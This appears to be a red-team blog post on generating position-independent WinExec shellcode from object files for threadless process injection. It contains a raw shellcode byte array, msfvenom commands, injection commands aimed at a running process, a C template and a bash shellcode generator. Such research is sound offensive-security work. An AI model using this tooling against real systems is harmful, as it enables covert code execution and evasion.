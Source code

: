 ```yaml
---
layout: post
title: "Adopting Position Independent Shellcodes from Object Files in Memory for Threadless Injection"
date: 2023-02-14 05:00:00 +0300
author: snovvcrash
tags: [maldev, threadless-injection, function-stomping, shellcode-injection, shellcode-generation, pic, winexec, msfvenom]
---
```


In this blog I will describe a way to automate the generation of Position Independent Shellcodes from object files in memory (by @NinjaParanoid) to be used in Threadless Process Injection (by @\_EthicalChaos\_).

<!--cut-->

[![banner.png](/assets/images/pic-generation-for-threadless-injection/banner.png)](/assets/images/pic-generation-for-threadless-injection/banner.png)
{:.center-image}

* TOC
{:toc}

## Function Stomping / Threadless Injection

One of the items from my endless TODO-list that I never crossed out was the topic of [Function Stomping](https://idov31.github.io/2022/01/28/function-stomping.html) by [Ido Veltzman](https://twitter.com/Idov31). Luckily, [Ceri Coburn](https://twitter.com/_EthicalChaos_) [presented](https://twitter.com/_EthicalChaos_/status/1624520767483310081) an awesome [research](https://github.com/CCob/ThreadlessInject/blob/master/Needles%20without%20the%20Thread.pptx) on Threadless Process Injection accompanying a ready-to-use [injector in C#](https://github.com/CCob/ThreadlessInject) which made me get back to that long-forgotten TODO.

## Pop-the-Calc Shellcode

While playing with ThreadlessInject and [porting](https://twitter.com/snovvcrash/status/1624944014263713796) it to the [DInvoke](https://github.com/TheWover/DInvoke) API, one of the obvious desires of mine was to test it with a different shellcode. As a Proof-of-Concept Ceri provides a classic [Pop-the-Calc](https://github.com/CCob/ThreadlessInject/blob/c41df117e74b3413a8ed12ba5882058057253aac/Program.cs#L73-L82) shellcode which works smoothly but may not be enough during a real engagement:

```powershell
Start-Process notepad; .\ThreadlessInject.exe -p (Get-Process notepad).Id -d kernel32.dll -e OpenProcess
```

[![threadless-inject-calc.png](/assets/images/pic-generation-for-threadless-injection/threadless-inject-calc.png)](/assets/images/pic-generation-for-threadless-injection/threadless-inject-calc.png)
{:.center-image}

Hackers looove popping calcs!
{:.quote}

Well, what will a hacker do to generate a shellcode? Summon `msfvenom`, of course:

```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o msf-calc.bin
```

Providing the `msf-calc.bin` shellcode to ThreadlessInject.exe with `-x` option expectedly results in exiting the target process:

```powershell
Start-Process notepad; .\ThreadlessInject.exe -x .\msf-calc.bin -p (Get-Process notepad).Id -d kernel32.dll -e OpenProcess
```

[![threadless-inject-msf.gif](/assets/images/pic-generation-for-threadless-injection/threadless-inject-msf.gif)](/assets/images/pic-generation-for-threadless-injection/threadless-inject-msf.gif)
{:.center-image}

Unwanted termination of parent process with MSF shellcode
{:.quote}

Changing the `EXITFUNC=` option during the generation process doesn't seem to be helpful:

```bash
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=none -f raw -o msf-calc-none.bin
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=process -f raw -o msf-calc-process.bin
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f raw -o msf-calc-thread.bin
```

It's a [known](https://rastating.github.io/altering-msfvenom-exec-payload-to-work-without-exitfunc/) thing that MSF-exec payloads are better to be started from a fresh thread 'cause the shellcode doesn't treat the stack gently. Furthermore, a hint about the required shellcode behavior is kindly left by the author of ThreadlessInject [in the comments](https://github.com/CCob/ThreadlessInject/blob/master/Program.cs#L73):

```csharp
//x64 calc shellcode function with ret as default if no shellcode supplied
static byte[] x64 = {
    0x53, 0x56, 0x57, 0x55, 0x54, 0x58, 0x66, 0x83, 0xE4, 0xF0, 0x50, 0x6A,
    0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63, 0x54, 0x59, 0x48, 0x29, 0xD4,
    0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76, 0x10,
    0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C,
    0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B,
    0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81,
    0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C,
    0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7, 0x99, 0xFF, 0xD7,
    0x48, 0x83, 0xC4, 0x68, 0x5C, 0x5D, 0x5F, 0x5E, 0x5B, 0xC3 };
```

That is to say, the `ret` instruction should be supplied when the shellcode's job is done in order to return the execution flow back to the caller (i. e., [the assembly stub](https://github.com/CCob/ThreadlessInject/blob/c41df117e74b3413a8ed12ba5882058057253aac/Program.cs#L117)) as well as proper stack alignment should be performed with registers preserved. So let's take a look at both shellcodes side-by-side with objdump.

[![pop-the-calc-comparison.png](/assets/images/pic-generation-for-threadless-injection/pop-the-calc-comparison.png)](/assets/images/pic-generation-for-threadless-injection/pop-the-calc-comparison.png)
{:.center-image}

Comparing calc shellcodes
{:.quote}

As we can see no `ret` is observed within the MSF shellcode... Dunno whether the dynamic way of MSF generator puts the `CMD=` value onto the stack (via that `call rbp` instruction) does also negatively impacts our situation but we definitely don't get desired behavior – the parent process dies.

So what can we do about it?

## Where's the <strike>Detonator</strike>Generator?

Honestly, I don't know any other FOSS shellcode generator besides `msfvenom` so I started to google :man_shrugging: Btw, the builtin default shellcode for ThreadlessInject is as old as time and can be found in a numerous GitHub repos and [gists](https://gist.github.com/dmchell/51b8c040402e6f13bacbed317335daea#file-csinjcy-L35).

Among other things, I considered the following options:

* Look for other less-known open source shellcode generators for Windows x64 – failed due to a total lack of them (though [win-x86-shellcoder](https://github.com/ommadawn46/win-x86-shellcoder) seems to be a nice project for x86).
* Use an existing Pop-the-Calc `.asm` file as template for generating a WinExec shellcode with an arbitrary argument (command) – failed due me being lazy. Good examples of such 'static' calc shellcodes (with a static `lpCmdLine` argument for WinExec) are [win-exec-calc-shellcode](https://github.com/peterferrie/win-exec-calc-shellcode) and [x64win-DynamicNoNull-WinExec-PopCalc-Shellcode](https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode) by [Bobby Cooke](https://twitter.com/0xBoku).
* Play with popular PE → shellcode techniques like [sRDI](https://github.com/monoxgas/sRDI), [donut](https://github.com/TheWover/donut), [pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode), etc.

While testing the 3rd option I came along this terrific article by [@KlezVirus](https://twitter.com/KlezVirus) – [From Process Injection to Function Hijacking](https://klezvirus.github.io/RedTeaming/AV_Evasion/FromInjectionToHijacking/) – which covers Function Stomping topic **in great depth** (one more blogpost in my TODOs).

As I was looking for a quick example to be used with ThreadlessInject, my attention was caught by one of the references to another blog of maldev magician [Chetan Nayak](https://twitter.com/NinjaParanoid) – [Executing Position Independent Shellcode from Object Files in Memory](https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/) – which we shall focus on further.

## PIC from Object Files

In his blog Chetan provides a way to build a C function with a small assembly stub for proper stack alignment and returning to the caller gracefully. With the ability to dynamically resolve exported symbols of WinExec (which resides within `kernel32.dll`) we can extract the opcodes from the compiled binary and use them as a Position Independent shellcode. That's exactly what we need!

Based on the given example of constructing the `getprivs` function I shall git clone his demo [repository](https://github.com/paranoidninja/PIC-Get-Privileges) and write a template to execute a command of my choice using WinExec:

```c
// template.c

#include "addresshunter.h"
#include <stdio.h>

typedef UINT(WINAPI* WINEXEC)(LPCSTR, UINT);

void exec() {
    UINT64 kernel32dll;
    UINT64 WinExecFunc;

    kernel32dll = GetKernel32();

    CHAR winexec_c[] = {'W','i','n','E','x','e','c', 0};
    WinExecFunc = GetSymbolAddress((HANDLE)kernel32dll, winexec_c);

    CHAR cmd_c[] = {'<CMD>'};
    ((WINEXEC)WinExecFunc)(cmd_c, 0);
}
```

Then with a bit of Bash magic for automation we get a working alternative for the `windows/x64/exec` MSF module:

```bash
#!/usr/bin/env bash

CMD=`echo "${1}" | grep -o . | sed -e ':a;N;$!ba;s/\n/\x27,\x27/g'`
CMD="${CMD//\\/\\\\\\\\}"
#echo $CMD

cat template.c | sed "s#<CMD>#${CMD}#g" > exec.c

nasm -f win64 adjuststack.asm -o adjuststack.o

x86_64-w64-mingw32-gcc exec.c -Wall -m64 -ffunction-sections -fno-asynchronous-unwind-tables -nostdlib -fno-ident -O2 -c -o exec.o -Wl,-Tlinker.ld,--no-seh

x86_64-w64-mingw32-ld -s adjuststack.o exec.o -o exec.exe

echo -e `for i in $(objdump -d exec.exe | grep "^ " | cut -f2); do echo -n "\x$i"; done` > exec.bin

rm exec.exe exec.o exec.c adjuststack.o
```

Generate and execute:

```bash
./generate.sh 'cmd /c "whoami /all" > C:\Windows\Tasks\out.txt'
```

[![threadless-inject-exec.png](/assets/images/pic-generation-for-threadless-injection/threadless-inject-exec.png)](/assets/images/pic-generation-for-threadless-injection/threadless-inject-exec.png)
{:.center-image}

Execution of customly generated shellcode
{:.quote}

Happy hacking!

## References

* [https://github.com/CCob/ThreadlessInject](https://github.com/CCob/ThreadlessInject)
* [https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/](https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/)
* [https://github.com/paranoidninja/PIC-Get-Privileges](https://github.com/paranoidninja/PIC-Get-Privileges)
* [https://idov31.github.io/2022/01/28/function-stomping.html](https://idov31.github.io/2022/01/28/function-stomping.html)
* [https://github.com/Idov31/FunctionStomping](https://github.com/Idov31/FunctionStomping)
* [https://klezvirus.github.io/RedTeaming/AV_Evasion/FromInjectionToHijacking/](https://klezvirus.github.io/RedTeaming/AV_Evasion/FromInjectionToHijacking/)
* [https://rastating.github.io/altering-msfvenom-exec-payload-to-work-without-exitfunc/](https://rastating.github.io/altering-msfvenom-exec-payload-to-work-without-exitfunc/)
* [https://github.com/ommadawn46/win-x86-shellcoder](https://github.com/ommadawn46/win-x86-shellcoder)
* [https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode](https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode)
